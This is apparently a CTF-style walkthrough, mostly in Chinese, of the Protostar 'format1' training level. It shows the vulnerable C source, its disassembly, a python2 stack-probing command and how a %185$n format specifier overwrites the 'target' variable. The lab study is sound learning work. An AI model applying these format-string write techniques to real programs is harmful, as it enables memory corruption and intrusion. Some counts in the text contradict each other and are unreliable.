 ```
# Format One

This level shows how format strings can be used to modify arbitrary memory locations.

**Hints**

- objdump -t is your friend, and your input string lies far up the stack :)

This level is at /opt/protostar/bin/format1
```

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```
---

**检查 `target` 是否非零，如果被修改则打印成功消息**
**由于printf(string)直接打印传入的参数，而不是使用格式化字符串比如`%s`等，可以输入带有格式化字符串的参数进行利用**

```c
pwndbg> disass main
Dump of assembler code for function main:
   0x0804841c <+0>:     push   ebp
   0x0804841d <+1>:     mov    ebp,esp
   0x0804841f <+3>:     and    esp,0xfffffff0
   0x08048422 <+6>:     sub    esp,0x10
   0x08048425 <+9>:     mov    eax,DWORD PTR [ebp+0xc]
   0x08048428 <+12>:    add    eax,0x4
   0x0804842b <+15>:    mov    eax,DWORD PTR [eax]
   0x0804842d <+17>:    mov    DWORD PTR [esp],eax
   0x08048430 <+20>:    call   0x80483f4 <vuln>
   0x08048435 <+25>:    leave
   0x08048436 <+26>:    ret
End of assembler dump.
pwndbg> disass vuln
Dump of assembler code for function vuln:
   0x080483f4 <+0>:     push   ebp
   0x080483f5 <+1>:     mov    ebp,esp
   0x080483f7 <+3>:     sub    esp,0x18
   0x080483fa <+6>:     mov    eax,DWORD PTR [ebp+0x8]
   0x080483fd <+9>:     mov    DWORD PTR [esp],eax
   0x08048400 <+12>:    call   0x8048320 <printf@plt>
   0x08048405 <+17>:    mov    eax,ds:0x8049638
   0x0804840a <+22>:    test   eax,eax
   0x0804840c <+24>:    je     0x804841a <vuln+38>
   0x0804840e <+26>:    mov    DWORD PTR [esp],0x8048500
   0x08048415 <+33>:    call   0x8048330 <puts@plt>
   0x0804841a <+38>:    leave
   0x0804841b <+39>:    ret
End of assembler dump.
```
---

**尝试确定输入的字符串在栈中的位置**

```c
./format1 `python2 -c "print 'AAAAAAAA' + '%08x.'*200 + '[%08x]'"` |grep ".41414141."

当程序 `format1` 调用 `printf(argv[1])` 时，您的输入字符串被作为格式字符串传递给 `printf`。`printf` 会解析格式字符串：
- 对于普通字符（如 "AAAA"），`printf` 会直接输出它们。
- 对于格式说明符（如 `%08x`），`printf` 会从栈上读取相应的参数并将其格式化输出
  
- 输入字符串以 `'AAAAAAAA'` 开头，这不是格式说明符，所以 `printf` 直接输出这些字符。这就是输出开头出现的 "AAAAAAAA"。
- 紧接着，`printf` 遇到第一个 `%08x`，它从栈上读取第二个参数（通常是某个随机值或地址），并输出为 8 位十六进制数（如 `00000000`），然后输出一个点。这个过程重复 185 次，因此输出中有一长串十六进制数和点。
  
- 输入字符串 `'AAAAAAAA'` 不仅被直接输出，还被存储在栈上（作为命令行参数的一部分）。当 `printf` 处理格式说明符时，它会逐步读取栈上的值。
```

![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250911185851309.png)
**如图所示，通过使用 1200 个 `%08x。` 和一个 `[%08x]`，总共 201 个格式说明符，我们最终读取到了栈上存储输入字符串 `'AAAAAAAA'` 的位置，甚至还多读取了一段数据**

**接下来减少长度，使得刚好读取到字符串 `'AAAAAAAA'` 的位置**
![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250911190354433.png)

**找到target的地址，地址为0x08049638**
```c
└─$ objdump -t format1 |grep target
08049638 g     O .bss   00000004              target
```

**接下来，将输入的参数替换为terget的地址**
![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250911194004025.png)

**接下来，将数据写入地址，成功输出关键句**
![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250911194349666.png)

```c
- `185$` → 表示“printf 从第 185 个参数拿地址值”。这个参数就是我们在前面塞进去的 `0x08049638`。
- `%n` → 把当前累计打印的字符数（比如现在可能是 8）写到这个地址
- 当 printf 跑到 `%185$n` 时，它把 **数字 8**（已经输出的字符数“AAAA”+ 地址乱码之类）写进 `0x08049638`。
- 于是 `target` = `8`
```

 